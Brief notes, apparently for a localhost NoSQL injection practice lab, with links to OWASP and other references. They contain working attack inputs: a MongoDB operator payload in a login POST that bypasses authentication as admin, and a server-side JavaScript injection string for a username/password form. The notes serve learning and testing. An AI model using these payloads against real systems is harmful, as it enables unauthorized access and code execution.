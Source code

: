 http://127.0.0.1:8000/join.php -> register as admin


Burp required
POST http://127.0.0.1:8000/login.php
login=admin&password[$ne]=1&submit=Submit

SSJS

LOGUT REQUIRED

http://127.0.0.1:8000/logout.php


http://127.0.0.1:8000/ssjs.php

username = blabla

password = 1'; var passs = db.version(); var test='


https://www.owasp.org/index.php/Testing_for_NoSQL_injection

https://habr.com/ru/company/xakep/blog/143909/

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection

Удар по MongoDB - Сценарии атаки на Nosql базу данных ZerpNights 2012
